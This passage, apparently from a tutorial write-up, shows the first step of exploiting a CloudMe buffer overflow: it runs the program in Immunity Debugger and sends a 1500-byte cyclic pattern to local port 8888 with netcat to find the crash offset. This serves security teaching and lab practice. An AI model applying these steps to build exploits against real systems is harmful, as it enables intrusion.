 ![Debugging CloudMe in Immunity debugger](../.gitbook/assets/cloudme1.png)

If the program says Paused at the bottom right of the window, then select Run from the Debug menu. We are going to send a pattern of text created by using msf-pattern\_create -l 1500 on the command line or in Immnunity, you can use !mona pattern\_create 1500 in the command window at the bottom of the screen.

Once CloudMe is running, you can send the pattern to CloudMe using netcat:

```bash
PS C:\Users\rin\Desktop> nc 127.0.0.1 8888
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5
Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1
Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9…
PS C:\Users\rin\Desktop>
```

This will cause an exception in the CloudMe app that will be reported by Immunity giving an address that it is trying to execute.

![](../.gitbook/assets/cloudme2.png)
